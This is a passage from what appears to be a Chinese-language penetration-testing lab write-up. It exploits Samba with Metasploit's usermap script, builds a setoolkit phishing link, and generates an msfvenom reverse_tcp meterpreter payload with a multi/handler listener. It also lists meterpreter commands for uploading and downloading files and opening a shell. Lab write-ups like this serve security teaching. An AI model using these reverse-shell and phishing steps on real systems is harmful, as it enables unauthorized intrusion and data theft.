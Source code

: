 用 usermap 的脚本进行攻击

<img alt="image-20241025170129340" src="https://s2.loli.net/2024/10/29/TaQLHSAmgcqrnP2.png" />

设置 rhosts, 渗透攻击Samba服务

<img alt="image-20241025170442975" src="https://s2.loli.net/2024/10/29/YieQEGFyvhHgSMw.png" />

## 4.分别通过发送一个网址链接和监听软件实现渗透攻击

使用 Metasploit 的 `multi/handler` 进行监听。

<img alt="image-20241025174037044" src="https://s2.loli.net/2024/10/29/s8JvC1LZqdBENGp.png" />

setoolkit 创建钓鱼网站链接

<img alt="image-20241025181006356" src="https://s2.loli.net/2024/10/29/TlzsxO14MbXS9kL.png" />

### 监听软件

创建恶意payload， 命令：`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.137.130 LPORT=4444 -f exe -o payload.exe`

<img alt="image-20241025210659479" src="https://s2.loli.net/2024/10/29/TOcdSstz35GvumI.png" />

创建监听器 ,  `use exploit/multi/handler` , `set payload windows/x64/meterpreter/reverse_tcp`

<img alt="image-20241025211233583" src="https://s2.loli.net/2024/10/29/plK8arPXz6A9IoE.png" />

建立会话

<img alt="image-20241025211503504" src="https://s2.loli.net/2024/10/29/lvNO3tSp2Eu1sgI.png" />

可执行的一系列命令：

https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/windows/meterpreter/reverse_tcp.md

```shell
pwd
cd C:\\
cat C:\\file.txt
upload /tmp/something.txt C:\\Users\\user\\Desktop\\something.txt
download C:\\Users\\user\\Desktop\\something.txt /tmp/
getuid
execute -f calc.exe
#The shell command allows you to interact with the remote machine's command promp
shell
sysinfo
```

<img alt="image-20241025211745933" src="https://s2.loli.net/2024/10/29/BrT93sASiNtJ4oh.png" />

